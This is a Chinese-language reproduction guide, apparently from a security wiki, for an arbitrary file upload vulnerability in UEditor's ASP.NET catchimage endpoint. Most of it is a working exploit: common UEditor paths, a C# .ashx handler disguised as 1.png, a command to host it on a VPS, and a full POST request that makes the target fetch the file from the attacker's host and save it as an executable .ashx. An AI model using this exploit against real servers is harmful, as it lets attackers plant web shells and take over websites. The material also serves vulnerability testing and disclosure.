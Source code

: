# ueditor存在任意文件上传漏洞(ASP)

### 一、漏洞描述
ueditor存在任意文件上传漏洞

### 二、影响版本
![1720728132194-b3f361fa-461b-41ae-97cf-c3e8d0598b22.png](./img/EWfoqq_KAC_e407D/1720728132194-b3f361fa-461b-41ae-97cf-c3e8d0598b22-254218.png)

### 三、漏洞复现
Ueditor路径：

```plain
/ueditor/
/ueditor-1.4.3.3/net/
/ueditor1_4_3_3-utf8-net/utf8-net/
/utf8-net/
```

将下面内容保存为1.png，上传至vps，开启一个http服务

```plain
<% @ webhandler language="C#" class="AverageHandler" %> 

using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
public bool IsReusable 
{ get { return true; } } 
public void ProcessRequest(HttpContext ctx) 
{ 
ctx.Response.Write("hello"); 
} 
}
```

```plain
python3 -m http.server 7788
```

![1720728231495-e068f2bf-373c-447c-8d8a-150d25672803.png](./img/EWfoqq_KAC_e407D/1720728231495-e068f2bf-373c-447c-8d8a-150d25672803-580779.png)

发送如下请求包

```plain
POST /ueditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: 
Cookie: ASP.NET_SessionId=0mw04qyo4jalkcgevkbdkotv; __RequestVerificationToken=TNLqbzboAbqK2T54GItDL80FA6wOaHCxRbAZAQut2sPldVD0A-AH6sGP2qalhJHbi3hWsr5xFm6876Ry9qflBN0XCyPKxxbxW3LkvPnuK7k1; .AspNet.UCApplicationCookie140400=soA1FErOUkdJQBpnPjyHZHzf2PluHG15CUYnRyqYd1zFQnAZlO2sBfAejgbJrZSp4DlToc1x83M-4FIjJ_9tUAzdhNX4CFrSWMX-Ei0swS4fwQbhx3qUwf1O_2NLM-1GPIqfeobbuEUTDJLkUHAl8QnJ5hHYlVW8l5lAPcPXhC6SgtQ16CyZdkjyA4Ze2EXeZhxnXoaL5MoUPknVb8fifAf707edXAl9C5m1oHr--G0JEXENSsTO5v0XthLL2eKUJMvV-dT4zF9v4P_6yNgNfEYFrxRXOECifw6lG3RHiqd61gHGotFovOTA7gvEvwQKlXjFq773nrkqOH8raEVObyvY8NYy9o8MFx1ugGLvnLMhi_4YblQ62Sf7mR2X8clwCJFEVEeTncPNXHi9c4HAX9b0iOIQ_JVmbWdkl-ZJar59F9eonUySWn5eKSMAhu96EWxGOb33jpmqmVw4j-RDX0O7qB0hsBLasTJHnOJsqlgiQR62SzFciYnB-wdnyu1V
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

source[]=http://x:7788/1.png?.ashx
```

![1720728261799-9905053c-1573-4008-8068-be3cbb0032a0.png](./img/EWfoqq_KAC_e407D/1720728261799-9905053c-1573-4008-8068-be3cbb0032a0-485515.png)

```plain
/ueditor/net/upload/image/20240712/6385635362820339411030114.ashx
```

![1720728287383-40ccdb4e-9c26-4d58-8080-637f358a5243.png](./img/EWfoqq_KAC_e407D/1720728287383-40ccdb4e-9c26-4d58-8080-637f358a5243-565362.png)



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tkcf54qe88wyd3z2>